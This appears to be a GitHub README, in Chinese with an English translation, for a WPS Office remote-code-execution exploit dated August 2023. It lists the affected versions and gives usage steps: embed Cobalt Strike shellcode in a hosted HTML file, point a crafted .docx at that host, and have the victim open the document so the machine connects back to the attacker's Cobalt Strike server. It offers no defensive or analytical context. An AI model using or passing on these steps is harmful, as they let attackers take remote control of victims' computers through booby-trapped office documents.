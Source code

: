 #看看这位师傅的，他写的好
[ba0gu0/wps-rce][https://github.com/ba0gu0/wps-rce]


# WPS-0DAY-20230809
WPS Office 2023个人版＜11.1.0.15120; WPS Office 2019企业版＜11.8.2.12085 
## 使用方法
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > 我这里使用的是CS中32位的payload, 使用`replace_shellcode.py`, 将`1.html`中的shellcode进行替换, 然后将`1.html`上传到你的托管地址, 例如: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > 替换`poc.docx`中的URL, 也就是你的托管地址
3. 双击文档即可上线CS



# WPS-0DAY-20230809
WPS Office 2023 Personal Edition ＜11.1.0.15120; WPS Office 2019 Enterprise Edition ＜11.8.2.12085 
## Usage
1. `python replace_shellcode.py shellcode_32_raw.bin`
   > Here, I am using a 32-bit payload from CS. Use `replace_shellcode.py` to replace the shellcode in `1.html`, then upload `1.html` to your hosting address, for example: http://127.0.0.1/1.html
2. `python exp.py poc.docx http://127.0.0.1/1.html`
   > Replace the URL in `poc.docx`, which is your hosting address
3. Double-click the document to connect to CS

   
